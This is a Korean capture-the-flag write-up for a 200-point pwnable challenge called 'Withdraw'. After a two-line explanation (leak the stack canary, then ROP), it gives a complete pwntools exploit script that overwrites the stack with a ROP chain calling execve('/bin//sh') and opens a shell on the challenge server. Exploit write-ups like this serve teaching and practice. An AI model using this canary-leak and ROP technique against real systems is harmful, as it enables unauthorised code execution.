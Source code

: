 ## No.23 Pwnable Withdraw[200]

**점수:** 200

**분야:** Pwnable

**제목:** Withdraw

**Description:**

> Let's withdraw money!
> 
> nc 223.194.105.182 35159
> Download : https://goo.gl/1PYrox

스택 canary가 있어 바로 BOF가 불가능하기 때문에 먼저 버퍼를 적당히 채워 canary를 알아낸다.

그 뒤론 전형적인 ROP이다.

```python
from pwn import *
 
r = remote('223.194.105.182', 35159)
 
r.recvuntil('number : ')
r.sendline('2')
r.sendline(' y')
r.recvuntil('code.')
r.send('a' * 65)
r.recvuntil('Hi, ')
leak = r.recvline()
canary = u32('\x00' + leak[-4:-1])
 
r.recvuntil('number : ')
r.sendline('2')
r.sendline(' y')
r.recvuntil('code.')
 
p = '\x00' * 64
p += p32(canary) * 2 # canary + sfp
p += p32(0x0805bf42) # pop edx ; ret
p += p32(0x080eb060) # @ .data
p += p32(0x08048882) # pop eax ; ret
p += '/bin'
p += p32(0x08054c5b) # mov dword ptr [edx], eax ; ret
p += p32(0x0805bf42) # pop edx ; ret
p += p32(0x080eb064) # @ .data + 4
p += p32(0x08048882) # pop eax ; ret
p += '//sh'
p += p32(0x08054c5b) # mov dword ptr [edx], eax ; ret
p += p32(0x0805bf42) # pop edx ; ret
p += p32(0x080eb068) # @ .data + 8
p += p32(0x08049553) # xor eax, eax ; ret
p += p32(0x08054c5b) # mov dword ptr [edx], eax ; ret
p += p32(0x080481c9) # pop ebx ; ret
p += p32(0x080eb060) # @ .data
p += p32(0x080df4e1) # pop ecx ; ret
p += p32(0x080eb068) # @ .data + 8
p += p32(0x0805bf42) # pop edx ; ret
p += p32(0x080eb068) # @ .data + 8
p += p32(0x08048882) # pop eax ; ret
p += p32(11)         # inc eax ; ret
p += p32(0x0806ce55) # int 0x80
 
r.send(p)
 
# try to withdraw negative money -> shell
r.interactive()
```

